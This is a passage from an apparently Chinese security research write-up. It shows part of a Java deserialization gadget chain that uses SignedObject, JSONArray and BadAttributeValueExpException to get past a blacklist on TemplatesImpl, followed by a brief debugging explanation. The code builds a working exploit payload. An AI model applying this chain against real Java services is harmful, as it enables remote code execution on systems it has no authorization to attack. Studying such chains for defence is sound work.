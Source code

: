 ```plain
        ReflectionUtils.setFieldValue(bd2,"val",jsonArray2);

        list.add(bd2);

        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) list, kp.getPrivate(), Signature.getInstance("DSA"));

        //触发SignedObject#getObject
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);

        BadAttributeValueExpException bd1 = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd1,"val",jsonArray1);

        //验证
        byte[] payload = SerializerUtils.serialize(bd1);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));  //再套一层inputstream检查TemplatesImpl，不可用
        ois.readObject();

    }
}
```

#### 调试

通过`SingedObject`绕过了黑名单对于`Templates`的校验。触发`BadAttributeValueExpException#readObject`，通过`gf.get`获取`JsonArray`。

[![](assets/1701612487-89e78da776540ab734b3be2c69bc58f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230613164356-6eeb4668-09c6-1.png)
